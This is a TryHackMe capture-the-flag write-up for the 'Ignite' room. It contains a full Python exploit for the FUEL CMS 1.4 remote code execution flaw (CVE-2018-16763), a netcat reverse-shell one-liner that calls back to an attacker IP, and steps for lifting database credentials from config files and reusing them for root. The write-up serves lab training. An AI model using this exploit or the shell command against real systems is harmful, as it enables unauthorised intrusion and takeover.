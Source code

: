 ```yaml
---
layout: post
title: PenLog - Ignite by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Ignite](https://tryhackme.com/room/ignite)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC 10.10.211.150
```

This results in:

![nmap1](/images/posts/penlog_ignite_by_tryhackme/nmap1.png)
_(**Note:** http-title "Welcome to FUEL CMS".)_

Google "FUEL CMS" and note description on [website](https://www.getfuelcms.com/):

_"The content management system for premium-grade websites."_

Open browser an navigate to target's open http port 80; note FUEL CMS version v1.4:

![fuelcms](/images/posts/penlog_ignite_by_tryhackme/fuelcms.png)

Also note mention of default credentials:

![fuelcms-creds](/images/posts/penlog_ignite_by_tryhackme/fuelcms_creds.png)
_(**Note:** Logging in to the portal proved useless.)_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit fuelcms 1.4
...
```

![searchsploit](/images/posts/penlog_ignite_by_tryhackme/searchsploit_fuelcms.png)
_(**Note:** "ss" in the above is a bash alias for `searchsploit`.)_

Download the PoC with EDB ID [47138](https://www.exploit-db.com/exploits/47138):

```bash
$ searchsploit -m 47138
$ dos2unix 47138
```

### 47138 Description

47138 demonstrates a PHP code execution vulnerability where un-trusted input results in 
Remote Code Execution (RCE). Looking at the code, the vulnerable parameter is highlighted by the `burp0_url`
variable:

```python
burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

The URL encoded data can be decoded like so:

```bash
$ python -c 'import urllib;print(urllib.unquote("%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27\"+urllib.quote(xxxx)+\"%27%29%2b%2"))'
```

![urldecode-filter](/images/posts/penlog_ignite_by_tryhackme/urldecode_filter.png)

As shown in the decoded PHP code, a call to PHP's `system` results in code execution.

## User Shell

I re-wrote the 47138 PoC (_fuelpwn.py_) and stripped out printing of the GET request response and built-in
support for the Burp Suite proxy:

```python
"""
FUEL CMS v1.4.1 CVE-2018-16763 PoC.

This PoC was derived from: https://www.exploit-db.com/exploits/47138.
"""
import argparse
import urllib
import requests

parser = argparse.ArgumentParser('Fuel CMS v1.4 CVE-2018-16763 PoC')

parser.add_argument('url', type=str, help='URL to target, e.g. http://127.0.0.1')
parser.add_argument('cmd', type=str, help='Command to execute')
args = parser.parse_args()

url=args.url
cmd=args.cmd

payload="'+pi(print($a='system'))+$a('"+cmd+"')+'"
payload_enc=urllib.quote(payload)  # URL encoded payload
filter_path='/fuel/pages/select/?filter='+payload_enc

try:
    _ = requests.get(url+filter_path)
except:
    pass
```
_(**Note:** You can download my port [here](https://gist.github.com/wulfgarpro/d302038d40e4aab46a5b61d876b01b93).)_

This port simplifies getting a reverse shell.

Start a `nc` reverse listener on port 4444:

```bash
$ nc -vnlp 4444
```

Run _fuelpwn.py_ supplying target URL and command to execute connecting back to the attacking machine - use fifo since `nc` on target does not have support for `-e` (see `man nc`):

```bash
$ python fuelpwn.py http://10.10.211.150 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.232 4444 >/tmp/f"
```

![user-shell](/images/posts/penlog_ignite_by_tryhackme/user_shell.png)
_(**Note:** "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_ignite_by_tryhackme/user_flag.png)

## Root Shell

Track down the FUEL CMS _config_ directory and use `grep` to find database password:

![dbpassword](/images/posts/penlog_ignite_by_tryhackme/dbpassword.png)

Perform the same to find username:

![dbusername](/images/posts/penlog_ignite_by_tryhackme/dbusername.png)

Notice the username is _root_; test for password re-use against _root_ user and get _root.txt_:

![root-shell](/images/posts/penlog_ignite_by_tryhackme/root_shell.png)
_(**Note:** supplied password was **mememe**.)_
